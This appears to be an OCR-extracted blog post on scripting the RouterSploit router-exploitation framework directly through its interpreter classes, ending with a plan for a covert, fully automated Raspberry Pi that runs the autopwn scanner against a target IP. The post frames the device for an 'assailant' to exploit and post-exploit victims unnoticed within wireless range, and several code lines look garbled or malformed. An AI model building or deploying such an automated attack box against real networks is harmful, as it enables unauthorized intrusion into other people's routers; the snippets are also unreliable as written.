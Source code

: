 Here is a sample of some syntax.


starts up the Interpreter, basically the shell started.

****Interpreter.RoutersploitInterpreter().start()***

This is actually the auto-tab-completion module for RouterSploit.

***BaseInterpreter.available_modules_completion('payloads')***

This is the equivalent of typing "Show Targets" in Metasploit.

***Interpreter.utils.module_required._show_devices('devices')***

This is what happens when you type "show scanners" in the RSF shell. The opt-parsing code immediately sends it to it's own submodule/process. 

***Interpreter.utils.module_required.__show_modules('scanners')***

When you type "use scanners/autopwn" in Routersploit

***Interpreter.BaseInterpreter().command_use('scanners/autopwn')***

This is how you can dump the Routersploit logs. Note the lower-case PRINT command on the left.

***print Interpreter.RoutersploitInterpreter(BaseInterpreter).history_file***

Even if you didn't know the module's programming syntax, you can still directly-inject commands into the parse_line(cmd) module. This was the earliest moment I could find a reliable injection point for commands.

***Interpreter.BaseInterpreter().parse_line("show payload)***


The next step up is calling the command_handler() to have it review the parsed user input. If you fail to inject a command into the parse_line function, a less reliable but decent second try is injecting the command into the get_command_handler() function.

***Interpreter.BaseInterpreter(get_command_handler('show'))***

# The auto exploiting Rpi...

Any assailant will not look suspicious at all as long as the Pi is powered on  and the attacker or "pentester" should just be walking around staying within wireless range. Now that I have found a breakthrough to createa a fully-automated initial exploitating Pi I think it's your turn to find a useful for this too ;).

To create a auto-exploiting Raspberry Pi, one would simply (after much testing and confirmation!!!)....

	Interpreter.BaseInterpreter.command_use('scanners/autopwn')
	Interpreter.RoutersploitInterpreter().commands('set TARGET 192.168.1.1')
	Interpreter.RoutersploitInterpreter().commands('set PORT 80')
	Interpreter.RoutersploitInterpreter().run('scanners/autopwn')***
	

It's much like handling a "pentest drop-box". But this time, the Pi is completely automated and ordered to exploit and post-exploit it's targeted victims

**Furthermore I have completed approximately 90% of the rest of the work that is meant to be added to the Pi or to compliment the gear of "wireless pentesters". For example...**
